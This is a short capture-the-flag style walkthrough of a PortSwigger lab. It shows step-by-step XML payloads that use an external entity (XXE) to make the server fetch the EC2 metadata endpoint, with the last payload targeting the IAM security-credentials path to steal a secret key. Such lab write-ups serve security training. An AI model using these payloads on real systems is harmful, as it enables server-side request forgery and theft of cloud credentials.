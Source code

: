 # Exploiting XXE to perform SSRF attacks

## This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

## The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

## To solve the lab, exploit the [XXE](https://portswigger.net/web-security/xxe) vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint.

---

### step 1

```xml

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

```

### step2

add `http://169.254.169.254/`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>&xxe;</storeId></stockCheck>
```

![screenshot](images/lab2_part1.jpg)

![screenshot](images/lab2_part2.jpg)

![screenshot](images/lab2_part3.jpg)

![screenshot](images/lab2_part4.jpg)

![screenshot](images/lab2_part5.jpg)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>&xxe;</storeId></stockCheck>
```

![screenshot](images/lab2_part6.jpg)
